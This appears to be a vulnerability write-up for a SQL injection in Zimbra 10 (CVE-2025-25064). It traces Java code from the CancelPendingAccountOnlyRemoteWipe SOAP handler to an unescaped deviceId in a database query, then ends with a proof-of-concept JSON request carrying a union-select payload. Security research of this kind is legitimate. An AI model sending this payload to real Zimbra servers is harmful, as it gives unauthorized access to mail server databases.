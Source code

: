 ### 1.  Title
Zimbra 10 SQL Injection (CVE-2025-25064) Analysis Article

### 2. Product version
tested on Zimbra 10

### 3.  Root Cause
```java
// lib/ext/zimbrasync/zm-sync-store/com/zimbra/zimbrasync/service/ZimbraSyncService.java
package com.zimbra.zimbrasync.service;

import com.zimbra.common.soap.SyncConstants;
import com.zimbra.soap.DocumentDispatcher;
import com.zimbra.soap.DocumentService;

public class ZimbraSyncService implements DocumentService {
    public void registerHandlers(DocumentDispatcher dispatcher) {
        dispatcher.registerHandler(SyncConstants.ALLOW_DEVICE_REQUEST, new AllowDevice());
        dispatcher.registerHandler(SyncConstants.BLOCK_DEVICE_REQUEST, new BlockDevice());
        dispatcher.registerHandler(SyncConstants.GET_DEVICE_STATUS_REQUEST, new GetDeviceStatus());
        dispatcher.registerHandler(SyncConstants.REMOVE_DEVICE_REQUEST, new RemoveDevice());
        dispatcher.registerHandler(SyncConstants.SUSPEND_DEVICE_REQUEST, new SuspendDevice());
        dispatcher.registerHandler(SyncConstants.QUARANTINE_DEVICE_REQUEST, new QuarantineDevice());
        dispatcher.registerHandler(SyncConstants.RESUME_DEVICE_REQUEST, new ResumeDevice());
        dispatcher.registerHandler(SyncConstants.REMOTE_WIPE_REQUEST, new RemoteWipe());
        dispatcher.registerHandler(SyncConstants.CANCEL_PENDING_REMOTE_WIPE_REQUEST, new CancelPendingRemoteWipe());
        dispatcher.registerHandler(SyncConstants.ACCOUNT_ONLY_REMOTE_WIPE_REQUEST, new AccountOnlyRemoteWipe());
        dispatcher.registerHandler(SyncConstants.CANCEL_PENDING_ACCOUNT_ONLY_REMOTE_WIPE_REQUEST, new CancelPendingAccountOnlyRemoteWipe()); // [0]
    }
}
```
If you see the `[0]`, register the endpoint using the `CancelPendingAccountOnlyRemoteWipe` Wool registerHandler method.

```java
public static final String E_CANCEL_PENDING_ACCOUNT_ONLY_REMOTE_WIPE_REQUEST = "CancelPendingAccountOnlyRemoteWipeRequest"; // [1]
```

If you look at `[1]` you can see that url mapped to the registered endpoint is `/CancelPendingAccountOnlyRemoteWipeRequest`.

```java
// lib/ext/zimbrasync/zm-sync-store/com/zimbra/zimbrasync/service/CancelPendingAccountOnlyRemoteWipe.java
package com.zimbra.zimbrasync.service;

import com.zimbra.common.service.ServiceException;
import com.zimbra.common.soap.Element;
import com.zimbra.common.soap.SyncConstants;
import com.zimbra.cs.account.Account;
import com.zimbra.cs.mailbox.MailboxManager;
import com.zimbra.soap.DocumentHandler;
import com.zimbra.soap.ZimbraSoapContext;
import com.zimbra.zimbrasync.Device;
import com.zimbra.zimbrasync.util.SyncUtil;
import java.util.Map;

public class CancelPendingAccountOnlyRemoteWipe extends DocumentHandler {
    public Element handle(Element request, Map<String, Object> context) throws ServiceException {
        ZimbraSoapContext zsc = getZimbraSoapContext(context);
        Account account = getRequestedAccount(zsc);
        if (!canAccessAccount(zsc, account)) {
            throw ServiceException.PERM_DENIED("can not access account");
        }
        String deviceId = request.getElement("device").getAttribute("id"); // [2]
        Device device = Device.getDevice(Integer.valueOf(MailboxManager.getInstance().getMailboxByAccount(account).getId()), deviceId); // [3]
        if (SyncUtil.isUserSyncActionAllowed("CancelPendingAccountOnlyRemoteWipeRequest", device.getStatus(), device.getLastUpdatedBy())) {
            device.cancelPendingAccountOnlyRemoteWipe("User");
            Element response = zsc.createElement(SyncConstants.CANCEL_PENDING_ACCOUNT_ONLY_REMOTE_WIPE_RESPONSE);
            GetDeviceStatus.encodeDeviceStatus(response, device);
            return response;
        }
        throw ServiceException.PERM_DENIED("You don't have permission to cancel pending account only wipe");
    }
}
```

If you look at [2], define the variable `deviceId` using your input and use it to call the method `Device.getDevice` if you look at [3].

```java
public static Device getDevice(Integer mailboxId, String deviceId) throws ServiceException {
    List<Device> devices = getDevices(mailboxId, deviceId, null, true); //[4]
    if (devices.size() == 0) {
        throw ZimbraSyncServiceException.NO_SUCH_DEVICE();
    }
    if ($assertionsDisabled || devices.size() == STATUS_OK) {
        return devices.get(STATUS_POLICY_NEEDPROV);
    }
    throw new AssertionError();
}
```

If you look at `[4]`, again the `getDevices` method is called, and there is no verification of the user input value `deviceId` variable.

```java
// lib/ext/zimbrasync/zm-sync-store/com/zimbra/zimbrasync/service/CancelPendingAccountOnlyRemoteWipe.java
public static List<Device> getDevices(Integer mailboxId, String deviceId, Byte status, Boolean incluedeDeletedByUser, int offset, int limit, String deviceName, String deviceType, String deviceLastUsed, String deviceSyncVersion, Boolean filterDevicesByAnd, Boolean includeMatchingDevices) throws ServiceException {
    List<Device> devices = new ArrayList<>();
    DbPool.DbConnection conn = STATUS_POLICY_NEEDPROV;
    PreparedStatement stmt = STATUS_POLICY_NEEDPROV;
    ResultSet rs = STATUS_POLICY_NEEDPROV;
    String queryAppendString = filterDevicesByAnd.booleanValue() ? " AND" : " OR";
    Boolean isQueryBeingCreated = false;
    StringBuilder query = new StringBuilder();
    query.append("SELECT device_id, device_type, user_agent, protocol_version, provisionable, status, policy_key, recovery_password, first_req_received, last_policy_update, remote_wipe_req, remote_wipe_ack, policy_values, last_used_date, deleted_by_user, model, imei, friendly_name, os, os_language, phone_number, unapproved_appl_list, approved_appl_list, mailbox_id, mobile_operator, last_updated_by, update_time FROM mobile_devices");
    if (mailboxId != null && mailboxId.intValue() > 0) {
        query.append(" WHERE");
        query.append(" mailbox_id = ?");
        isQueryBeingCreated = true;
    }
    if (!StringUtil.isNullOrEmpty(deviceId)) {
        if (isQueryBeingCreated.booleanValue()) {
            query.append(queryAppendString);
        } else {
            query.append(" WHERE");
            isQueryBeingCreated = true;
        }
        if (includeMatchingDevices.booleanValue()) {
            Pattern pattern = Pattern.compile("(?<!\\.)\\*");
            Matcher matcher = pattern.matcher(deviceId);
            query.append(" device_id").append(" REGEXP '^" + matcher.replaceAll(".*") + "$'");
        } else {
            query.append(" device_id = '" + deviceId + "'"); // [5]
        }
    }
```

If you look at [5], there is no verification of variable `deviceId` and no escape is made, and it is added to the query variable SQL Injection is possible.

### 4. POC

By sending a request to the endpoint that uses getDevice with the following payload, an SQL injection is triggered.
`{"Body":{"CancelPendingAccountOnlyRemoteWipeRequest":{"_jsns":"urn:zimbraSync","device":{"id":"aaaa\'union select 111,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,18,20,21,22,23,24,25,26,111}}}}`


This article was written in collaboration with NGA Thank you

PS. We actually found this a long time ago but did not report it LOL
